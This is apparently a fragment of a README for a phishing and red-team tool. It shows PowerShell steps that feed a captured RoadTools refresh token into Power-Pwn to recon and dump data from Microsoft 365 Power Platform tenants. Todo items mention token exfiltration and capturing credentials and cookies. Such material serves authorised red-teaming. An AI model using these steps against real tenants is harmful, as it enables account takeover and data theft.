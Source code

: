 
### Power-Pwn
[Power-Pwn](https://github.com/mbrg/power-pwn) in Python-based offensive security toolset for targeting the Microsoft 365 Power Platform, by [@mbrg0](https://twitter.com/mbrg0)
```powershell
#Read and parse RoadTools auth file into a JSON object
$roadToolsAuth = Get-Content .\firstname_lastname_example_com_roadtools_auth -raw | ConvertFrom-Json

#Create tokens.json in the same directory you are running powerpwn.exe from
@{cli_refresh_token = $roadToolsAuth.refreshToken } | ConvertTo-Json | Set-Content -Path 'tokens.json'

#Perform recon of possible Power Platform deployments
./powerpwn.exe recon -t $roadToolsAuth.tenantId

#Dump data from found Power Platform deployments
./powerpwn.exe dump -t $roadToolsAuth.tenantId
```

# Todo
- [ ] Add an option to specify a proxy URL for token retrieval and exfiltration
- [ ] Allow for capture and notification for other username + password + cookie combinations (then only O365)
- [ ] Options to get Pushover notifications even if only username + password was captured (no cookie)

# Credits
- [@_dirkjan](https://twitter.com/_dirkjan) for the amazing work that is [RoadTools](https://github.com/dirkjanm/ROADtools) 
- [mrgretzky](https://twitter.com/mrgretzky) for raising the standard of phishing simulation with the [evilginx2](https://github.com/kgretzky/evilginx2) toolkit
